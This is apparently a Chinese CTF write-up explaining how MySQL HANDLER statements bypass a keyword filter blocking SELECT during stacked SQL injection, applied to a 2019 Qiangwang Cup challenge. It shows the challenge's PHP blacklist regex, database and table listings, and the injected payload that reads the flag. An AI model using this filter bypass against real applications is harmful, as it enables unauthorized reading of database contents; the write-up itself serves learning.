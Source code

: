 ```yaml
---
layout: post
title: "handler in sqlInjection"
subtitle: "handler in sqlInjection"
author: "Novocaine#p1an0@qq.com"
header-img: "img/post-bg-dreamer.jpg"
header-mask: 0.4
tags:
  - REVERSE
  - 二进制安全
  - x86Linux 
---
```


前言
--
- sql注入时，构造不出select 的确很让人头疼。
- 仔细想想，之前接触的sql语句并不能替代select关键字，在没有select，如何构造并查询数据？ 

0x01 WTF handler?
==
handler是mysql特有的查询语句，这个语句可以使我们一行一行地浏览mysql表，具体使用如下：

![image-20210120143638033](https://raw.githubusercontent.com/Rand0mPythoner/imgs/master//blog-imgimage-20210120143638033.png)

```
handler admin open; 		创建handler句柄
handler admin read FIRST;	读取第一行
handler admin read next;	往后读
handler admin read first limit 3;	读3条
handler admin close;		关闭句柄
```

比较高效率的查询方式：

![image-20210120144051117](https://raw.githubusercontent.com/Rand0mPythoner/imgs/master//blog-imgimage-20210120144051117.png)

0x02 handler in sqlinjection
==
这个技巧我尝试只能在堆叠注入中使用，利用在**强网杯 2019 随便注**

环境过滤了select insert update delete
```php
return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
```

show databases:
```
array(1) {
  [0]=>
  string(11) "ctftraining"
}

array(1) {
  [0]=>
  string(18) "information_schema"
}

array(1) {
  [0]=>
  string(5) "mysql"
}

array(1) {
  [0]=>
  string(18) "performance_schema"
}

array(1) {
  [0]=>
  string(9) "supersqli"
}

array(1) {
  [0]=>
  string(4) "test"
}
```

show tables:
```
array(1) {
  [0]=>
  string(5) "flagg"
}

array(1) {
  [0]=>
  string(5) "words"
}
```

handler flagg open;handler flagg read first;

```
array(1) {
  [0]=>
  string(40) "QWB{b224696a66564e6b95dc8a6eb792bce7}"
}
```
